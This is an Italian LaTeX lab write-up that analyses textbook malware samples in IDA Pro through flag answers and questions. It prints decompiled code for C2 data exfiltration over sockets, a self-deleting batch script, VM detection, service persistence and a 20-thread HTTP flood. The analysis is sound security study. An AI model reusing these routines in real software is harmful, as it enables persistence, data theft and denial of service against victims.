\chapter{Windows Malware}
In questa esercitazione vengono analizzati diversi malware, al fine di comprendere l'utilizzo di software per il reverse engineering come IDA Pro.

\section{Lab05-01.dll}

Analisi del primo malware.

\subsection{Flags}

\subsubsection{Flag 1: Indirizzo \texttt{dllMain}}
\underline{Risposta:} \textbf{1000D02E}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag1.png}
  \caption{Indirizzo \texttt{dllMain} in IDA Pro}
\end{figure}

\subsubsection{Flag 2: Indirizzo locazione import \texttt{gethostbyname}}
\underline{Risposta:} \textbf{100163CC}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag2.png}
  \caption{Locazione import \texttt{gethostbyname}}
\end{figure}

\subsubsection{Flag 3: Numero di funzioni che chiamano \texttt{gethostbyname}}
\underline{Risposta:} \textbf{9}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag3.png}
  \caption{Funzioni che richiamano \texttt{gethostbyname}}
\end{figure}

\subsubsection{Flag 4: Nome del dominio DNS}
\underline{Risposta:} \textbf{pics.praticalmalwareanalysis.com}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag4.png}
  \caption{Dominio DNS individuato}
\end{figure}

\subsubsection{Flag 5: Numero di parametri e variabili locali per subroutine \texttt{sub\_10001656}}
\underline{Risposta:} \textbf{23} (5 parametri e 18 variabili locali)

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag5.png}
  \caption{Parametri e variabili locali della subroutine \texttt{sub\_10001656}}
\end{figure}

\subsubsection{Flag 6: Messaggio}
\underline{Risposta:}
\begin{verbatim}
Hi,Master [%d/%d/%d %d:%d:%d]
WelCome Back...Are You Enjoying Today?

Machine UpTime  [%-.2d Days %-.2d Hours %-.2d Minutes %-.2d Seconds]
Machine IdleTime [%-.2d Days %-.2d Hours %-.2d Minutes %-.2d Seconds]

Encrypt Magic Number For This Remote Shell Session [0x%02x]
\end{verbatim}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag6.png}
  \caption{Messaggio del malware memorizzato nelle risorse}
\end{figure}

\subsubsection{Flag 7: Quale OS innesca il malware?}
\underline{Risposta:} \textbf{Windows}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag7_1.png}
  \caption{Controllo versione del sistema operativo (parte 1)}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag7_2.png}
  \caption{Controllo versione del sistema operativo (parte 2)}
\end{figure}

\subsection{Domande}

\subsubsection{Cosa succede se il paragone con la stringa \texttt{robotwork} ha successo?}

La stringa \texttt{robotwork} è verosimilmente un comando passato tramite un terminale avviato sulla macchina vittima, siccome la funzione è sostanzialmente un parser che confronta i caratteri.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/robotWork_compare.png}
  \caption{Confronto con la stringa \texttt{robotwork}}
\end{figure}

In caso di \texttt{jnz}, il confronto avviene con altri comandi. Se il comando è effettivamente \texttt{robotwork}, viene invece invocata una subroutine.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/robotwork_subroutine.png}
  \caption{Chiamata alla subroutine in caso di corrispondenza}
\end{figure}

La subroutine collocata a \texttt{0x100052A2} permette di monitorare lo stato di attività della macchina vittima e inviarlo all'attaccante. Vengono effettuate in breve le seguenti azioni:

\begin{enumerate}
  \item Viene creato un buffer dove allocare i dati:
\begin{lstlisting}[language=C]
char Buffer[1021];
BYTE Data[512];
memset(Buffer, 0, sizeof(Buffer));
memset(Data, 0, sizeof(Data));
\end{lstlisting}

  \item Ottiene l'accesso in lettura alla chiave del registro \texttt{HKEY\_LOCAL\_MACHINE\textbackslash SOFTWARE\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion} (in caso di fallimento, viene chiusa la funzione):
\begin{lstlisting}[language=C]
if ( RegOpenKeyExA(HKEY_LOCAL_MACHINE, aSoftwareMicros, 0, 0xF003Fu, &phkResult) )
  return RegCloseKey(phkResult);
\end{lstlisting}

  \item Viene analizzato dapprima il parametro \textit{WorkTime}: viene formattato e poi inviato tramite socket:
\begin{lstlisting}[language=C]
if ( !RegQueryValueExA(phkResult, aWorktime, 0, &Type, Data, &cbData) )
{
  v2 = atoi((const char *)Data);
  sprintf(Buffer, "\r\n\r\n[Robot_WorkTime :] %d\r\n\r\n", v2);
  v3 = strlen(Buffer);
  sub_100038EE(s, (int)Buffer, v3);
}
\end{lstlisting}
WorkTime è un valore personalizzato (probabilmente creato dal malware stesso) sotto la chiave: \texttt{HKLM\textbackslash SOFTWARE\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash WorkTime}.

  \item Viene analizzato poi il parametro \textit{Worktimes} allo stesso modo:
\begin{lstlisting}[language=C]
memset(Data, 0, sizeof(Data));
if ( !RegQueryValueExA(phkResult, aWorktimes, 0, &Type, Data, &cbData) )
{
  v4 = atoi((const char *)Data);
  sprintf(Buffer, "\r\n\r\n[Robot_WorkTimes:] %d\r\n\r\n", v4);
  v5 = strlen(Buffer);
  sub_100038EE(s, (int)Buffer, v5);
}
\end{lstlisting}

  \item Viene infine chiusa la chiave di registro:
\begin{lstlisting}[language=C]
RegCloseKey(phkResult);
\end{lstlisting}
\end{enumerate}

La subroutine \texttt{sub\_100038EE} contiene il codice per offuscare i dati tramite operazione di addizione ed inviarli al server remoto:

\begin{lstlisting}[language=C]
int __cdecl sub_100038EE(SOCKET s, int a2, int len)
{
  int v3; // edi
  char *v4; // eax
  int v5; // edx
  char *v6; // esi
  char *v7; // ecx
  int v8; // eax
  int v9; // eax
  int v10; // edi

  v3 = len;
  v4 = (char *)malloc(len + 1);
  v5 = 0;
  v6 = v4;
  if ( len > 0 )
  {
    v7 = v4;
    v8 = a2 - (_DWORD)v4;
    v5 = len;
    do
    {
      *v7 = dword_1008E5D0 + v7[v8];
      ++v7;
      --len;
    }
    while ( len );
  }
  v6[v5] = 0;
  v9 = send(s, v6, v3, 0);
  v10 = -1;
  if ( v9 != -1 )
    v10 = v9;
  free(v6);
  return v10;
}
\end{lstlisting}

\subsubsection{Cosa fa l'export \texttt{PSLIST}?}

La funzione export \texttt{PSLIST} stampa tutti i processi attualmente in esecuzione all'interno della macchina. Se viene passato un processo specifico tramite la stringa in ingresso, viene stampato solamente quello.

\begin{lstlisting}[language=C]
int __stdcall PSLIST(int a1, int a2, char *Str, int a4)
{
  int result; // eax

  dword_1008E5BC = 1;
  result = sub_100036C3();
  if ( result )
  {
    if ( strlen(Str) )
      result = sub_1000664C(0, Str);
    else
      result = sub_10006518(0);
  }
  dword_1008E5BC = 0;
  return result;
}
\end{lstlisting}

\subsubsection{Q3: Quali funzioni API vengono invocate all'interno della subroutine \texttt{0x10004E79}? Come è possibile rinominare la funzione?}

La funzione invoca la chiamata API \texttt{GetSystemDefaultLangID}, che fornisce la lingua di sistema, e la invia al server remoto tramite socket. Basandosi su questa API, è possibile rinominare la funzione in \texttt{GetVictimLanguage}.

\subsubsection{Q4: Quali funzioni API Windows chiama direttamente \texttt{DllMain}? Quali invece a profondità 2?}

Viene usata direttamente la chiamata API \texttt{CreateThread}.

La funzione creata da \texttt{CreateThread} invoca a sua volta altre subroutine:
\begin{itemize}
  \item \textbf{\texttt{0x10001074} e \texttt{0x10001365}}: 5 API (\texttt{WinExec}, \texttt{Sleep}, \texttt{gethostbyname}, \texttt{inet\_addr}, \texttt{inet\_ntoa})
  \item \textbf{\texttt{0x10001656}}: 20 API (\texttt{WSAStartup}, \texttt{WSAGetLastError}, \texttt{socket}, \texttt{gethostbyname}, \texttt{inet\_addr}, \texttt{inet\_ntoa}, \texttt{ntohs}, \texttt{connect}, \texttt{send}, \texttt{recv}, \texttt{select}, \texttt{closesocket}, \texttt{Sleep}, \texttt{LoadLibraryA}, \texttt{GetProcAddress}, \texttt{CreateThread}, \texttt{CloseHandle}, \texttt{FreeLibrary}, \texttt{ExitThread})
\end{itemize}

\subsubsection{Q5: Nella chiamata \texttt{Sleep} in \texttt{0x10001358}, per quanto tempo il programma va in riposo prima di riprendere l'esecuzione?}

\begin{lstlisting}[language=C]
v14 = atoi(off_10019020[0] + 13);
Sleep(1000 * v14); 
\end{lstlisting}

Nella \texttt{Sleep} viene preso in ingresso il valore collocato in \texttt{off\_10019020}, che corrisponde alla stringa \texttt{[This is CTI]30}. In altre parole, viene estratta la cifra dopo la parentesi quadra. Pertanto, la \texttt{Sleep} dura 30 secondi.

\subsubsection{Q6-7: A \texttt{0x10001701} c'è una chiamata a \texttt{socket}, quali sono i parametri?}

La chiamata a \texttt{socket} prende in ingresso tre parametri (\textit{af}, \textit{type}, \textit{protocol}). In questo caso vengono usati i valori (2, 1, 6):

\begin{itemize}
  \item \textbf{af}: Viene usata la famiglia di indirizzi IPv4 (\texttt{AF\_INET} = 2).
  \item \textbf{type}: La tipologia di socket è \texttt{SOCK\_STREAM} (1), per flussi di byte sequenziali e affidabili (TCP).
  \item \textbf{protocol}: Il protocollo specificato è TCP (\texttt{IPPROTO\_TCP} = 6).
\end{itemize}

Viene quindi utilizzata una socket TCP IPv4 standard per connettersi al server di comando e controllo (C2).

\subsubsection{Q8: Cerca l'istruzione \texttt{IN(0xED)}, usata insieme alla stringa \texttt{VMXh} per effettuare la detection di macchine virtuali. Viene utilizzata? Se sì, ci sono altri casi di VM detection?}

Effettuando la ricerca binaria in IDA Pro:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/find_in.png}
  \caption{Ricerca dell'istruzione \texttt{IN} in IDA Pro}
\end{figure}

Troviamo che l'istruzione \texttt{IN} viene effettivamente utilizzata:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/in_found.png}
  \caption{Istruzione \texttt{IN} individuata nella subroutine \texttt{sub\_10006196}}
\end{figure}

Questa istruzione fa parte della subroutine \texttt{sub\_10006196}. Viene usata da tre funzioni di installazione principali: \texttt{InstallRT}, \texttt{InstallSB} e \texttt{InstallSA}. Ciascuna di queste funzioni esegue il seguente controllo:

\begin{lstlisting}[language=C]
if ( atoi(off_10019034[0] + 13) && ((unsigned __int8)sub_10006119() || sub_10006196()) )
{
  sub_10003592(byte_1008E5F0, v5);
  sub_10003592(aFoundVirtualMa, v6);
  return sub_10005567();
}
\end{lstlisting}

Questa logica permette di individuare la presenza di una macchina virtuale. Dopodiché:

\begin{itemize}
  \item In \texttt{sub\_10003592} viene loggato il fatto che il malware ha rilevato l'ambiente virtuale:
\begin{lstlisting}[language=C]
va_start(va, Format);
if ( atoi(off_10019028[0] + 13) )
{
  vsnprintf(Buffer, 0x400u, Format, va);
  StdHandle = GetStdHandle(0xFFFFFFF5);
  if ( StdHandle != (HANDLE)-1 )
  {
    v2 = strlen(Buffer);
    WriteFile(StdHandle, Buffer, v2, &NumberOfBytesWritten, 0);
    WriteFile(StdHandle, ::Buffer, 2u, &NumberOfBytesWritten, 0);
  }
  v3 = fopen(FileName, aA);
  if ( v3 )
  {
    if ( strlen(Buffer) )
    {
      fprintf(v3, "\n%s", Buffer);
    }
    else
    {
      v5 = strtime(v8);
      v4 = strdate(v7);
      fprintf(v3, "\n\n\n[%s %s]", v4, v5);
    }
    fclose(v3);
  }
  OutputDebugStringA(Buffer);
}
\end{lstlisting}

  \item Nella subroutine \texttt{sub\_10005567}, il malware si auto-cancella scrivendo ed eseguendo un file batch (\texttt{selfdel.bat}) che rimuove gli attributi del file e lo elimina dal disco:
\begin{lstlisting}[language=C]
memset(Filename, 0, sizeof(Filename));
memset(Buffer, 0, sizeof(Buffer));
v7 = 0; v8 = 0; v4 = 0; v5 = 0;
GetModuleFileNameA(hModule, Filename, 0x104u);
sprintf(Buffer, aVmselfdelBat);
v0 = fopen(Buffer, aW);
v1 = v0;
if ( v0 )
{
  fprintf(v0, "@echo off\r\n");
  fprintf(v1, ":selfkill\r\n");
  fprintf(v1, "attrib -a -r -s -h \"%s\"\r\n", Filename);
  fprintf(v1, "del \"%s\"\r\n", Filename);
  fprintf(v1, "if exist \"%s\" goto selfkill\r\n", Filename);
  fprintf(v1, "del %%0\r\n");
}
fclose(v1);
return WinExec(Buffer, 0);
\end{lstlisting}
\end{itemize}

\subsubsection{Q9-12: \texttt{0x1001D988} ed esecuzione dello script}

All'indirizzo \texttt{0x1001D988} viene raffigurata una stringa offuscata:
\begin{verbatim}
........-1::'u<&
u!=<&u746>1::'yu
&!'<;2u106:101u3
:'u.'46!<649u.49
"4'0u.;49,&<&u.4
7uo|dgfa........
\end{verbatim}

Viene eseguito lo script indicato che decodifica la stringa tramite un'operazione XOR con la chiave \texttt{0x55}. Otteniamo così il risultato finale:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/string_decoded.png}
  \caption{Stringa decodificata mediante XOR}
\end{figure}

\section{Lab07-01.exe}

Analizziamo lo pseudocodice decompilato del malware:

\begin{lstlisting}[language=C]
int sub_401040()
{
  SC_HANDLE v0; // esi
  HANDLE WaitableTimerA; // esi
  int v2; // esi
  SYSTEMTIME SystemTime; // [esp+0h] [ebp-400h] BYREF
  struct _FILETIME FileTime; // [esp+10h] [ebp-3F0h] BYREF
  CHAR Filename[1000]; // [esp+18h] [ebp-3E8h] BYREF

  if ( OpenMutexA(0x1F0001u, 0, Name) )
    ExitProcess(0);
  CreateMutexA(0, 0, Name);
  v0 = OpenSCManagerA(0, 0, 3u);
  GetCurrentProcess();
  GetModuleFileNameA(0, Filename, 0x3E8u);
  CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, Filename, 0, 0, 0, 0, 0);
  memset(&SystemTime.wMonth, 0, 14);
  SystemTime.wYear = 2100;
  SystemTimeToFileTime(&SystemTime, &FileTime);
  WaitableTimerA = CreateWaitableTimerA(0, 0, 0);
  SetWaitableTimer(WaitableTimerA, (const LARGE_INTEGER *)&FileTime, 0, 0, 0, 0);
  if ( !WaitForSingleObject(WaitableTimerA, 0xFFFFFFFF) )
  {
    v2 = 20;
    do
    {
      CreateThread(0, 0, StartAddress, 0, 0, 0);
      --v2;
    }
    while ( v2 );
  }
  Sleep(0xFFFFFFFF);
  return 0;
}
\end{lstlisting}

\subsection{Q1: Persistence}

La persistenza viene garantita dalla creazione di un servizio di sistema tramite l'API:
\begin{lstlisting}[language=C]
CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, Filename, 0, 0, 0, 0, 0);
\end{lstlisting}

I parametri fondamentali indicano:
\begin{itemize}
  \item \texttt{dwServiceType} = \texttt{2} $\to$ \texttt{SERVICE\_FILE\_SYSTEM\_DRIVER} (driver di sistema).
  \item \texttt{dwStartType} = \texttt{0x10} $\to$ \texttt{SERVICE\_AUTO\_START} (avvio automatico ad ogni caricamento del sistema operativo).
  \item \texttt{dwErrorControl} = \texttt{2} $\to$ \texttt{SERVICE\_ERROR\_SEVERE}.
\end{itemize}

\subsection{Mutex}

Il malware usa un mutex denominato \texttt{Name} per evitare l'esecuzione simultanea di istanze multiple dello stesso programma, prevenendo così la concorrenza e auto-reinfezioni che potrebbero insospettire l'utente.

\subsection{Signature}

Le firme statiche sono collocate all'interno di una subroutine e comprendono:
\begin{itemize}
  \item \textbf{User-Agent (Browser)}: \texttt{Internet Explorer 8.0}
  \item \textbf{Indirizzo di rete}: \texttt{http://www.malwareanalysisbook.com}
\end{itemize}

Ciò ci permette di comprendere che l'host compromesso contatterà l'indirizzo URL specificato usando Internet Explorer. Una firma network-based consiste nel monitoraggio delle chiamate API \texttt{InternetOpenA} (inizializza l'uso delle funzioni WinINet) ed \texttt{InternetOpenUrlA} per generare traffico verso tale dominio.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/signatures.png}
  \caption{Firme di rete individuate nel binario}
\end{figure}

\subsection{Scopo e termine del programma}

Il programma è progettato per:
\begin{itemize}
  \item Effettuare un'installazione stealth e persistente come servizio ad avvio automatico.
  \item Attendere in modo silente fino all'anno 2100 (\texttt{SystemTime.wYear = 2100}) tramite un timer di attesa (\texttt{SetWaitableTimer}).
  \item Non appena il timer scade (\texttt{WaitForSingleObject} si sblocca), vengono creati 20 thread paralleli che effettuano richieste HTTP incessanti (un attacco DoS) verso l'URL bersaglio. I thread hanno la seguente struttura:
\begin{lstlisting}[language=C]
void __stdcall __noreturn StartAddress(LPVOID lpThreadParameter)
{
  void *i; // esi
  for ( i = InternetOpenA(szAgent, 1u, 0, 0, 0); ; InternetOpenUrlA(i, szUrl, 0, 0, 0x80000000, 0) )
    ;
}
\end{lstlisting}
\end{itemize}

Il programma principale entra in uno stato di sonno infinito (\texttt{Sleep(0xFFFFFFFF)}), ma i 20 thread di attacco continueranno la loro esecuzione in background a tempo indeterminato.

\section{Lab12-01.exe / Lab12-01.dll}

\subsection{Lancio dell'eseguibile}

L'esecuzione del file eseguibile innesca un attacco di tipo \textbf{process injection} (iniezione di codice) che porta alla comparsa ciclica di pop-up di messaggi.

Gli indizi di questo comportamento sono visibili ispezionando la Import Address Table (IAT) tramite Dependency Walker:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injection.png}
  \caption{Importazioni dell'eseguibile correlate all'iniezione di codice}
\end{figure}

L'eseguibile importa funzioni critiche per la manipolazione di processi terzi: \texttt{OpenProcess}, \texttt{VirtualAllocEx}, \texttt{WriteProcessMemory} e \texttt{CreateRemoteThread}.

La DLL iniettata forzatamente tramite la tecnica del \texttt{LoadLibrary} carica ed esegue codice malevolo che fa uso di \texttt{MessageBox} per aprire finestre informative:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injected_1.png}
  \caption{Importazioni della DLL iniettata (parte 1)}
\end{figure}

\begin{figure}[H]
  \centering
